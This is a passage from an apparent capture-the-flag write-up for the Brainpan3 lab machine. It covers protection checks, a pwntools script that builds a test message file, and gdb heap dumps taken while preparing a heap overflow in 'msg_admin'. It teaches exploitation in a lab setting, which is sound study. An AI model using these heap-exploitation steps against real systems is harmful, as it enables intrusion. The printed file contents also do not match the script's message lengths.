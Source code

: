 Canaries, NX on.

Is ASLR is on?
```
$ cat /proc/sys/kernel/randomize_va_space
2
```

Yep. Time to pull out all the stops. From the cronjob, we realize that the binary takes a file. Analyzing the binary statically, we see that the file needs to contain lines of names and messages seperated by a `|`. Let's create a small payload generation script to test this.

```python
# make-pwnmsg.py
from pwn import *

with open('pwn.msg', 'w') as f:
    f.write('{}|{}\n'.format('a'*4, 'A'*10))
    f.write('{}|{}\n'.format('b'*4, 'B'*10))
    f.write('{}|{}\n'.format('b'*4, 'C'*10))

```

Verify its contents.

```
ctf@ctf-barberpole:~/ctfs/brainpan3/files$ cat pwn.msg
aaaa|AAAAAAAAAAAA
bbbb|BBBBBBBBBBBB
bbbb|CCCCCCCCCCCC
```

Execute the payload in `gdb`.

```
$ gdb ./msg_admin
pwn> r 1 pwn.msg
```

We noticed a few `malloc`s in the static analysis. Let's see how the heap is layed out.

```
pwn> hexdump 0x804c390 120

+0000 0x804c390  a8 c3 04 08  11 00 00 00  61 61 61 61  00 00 00 00  |....|....|aaaa|....|
+0010 0x804c3a0  00 00 00 00  d1 00 00 00  41 41 41 41  41 41 41 41  |....|....|AAAA|AAAA|
+0020 0x804c3b0  41 41 00 00  00 00 00 00  00 00 00 00  00 00 00 00  |AA..|....|....|....|
+0030 0x804c3c0  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  |....|....|....|....|
*
+00e0 0x804c470  00 00 00 00  11 00 00 00  01 00 00 00  88 c4 04 08  |....|....|....|....|
+00f0 0x804c480  98 c4 04 08  11 00 00 00  62 62 62 62  00 00 00 00  |....|....|bbbb|....|
+0100 0x804c490  00 00 00 00  d1 00 00 00  42 42 42 42  42 42 42 42  |....|....|BBBB|BBBB|
+0110 0x804c4a0  42 42 00 00  00 00 00 00  00 00 00 00  00 00 00 00  |BB..|....|....|....|
```

It appears that each of our messages is back to back in the heap. It also looks like two pointers exist after our message (see address `0x804c47c` and `0x804c480`). How much space is available between our message and the last pointer.
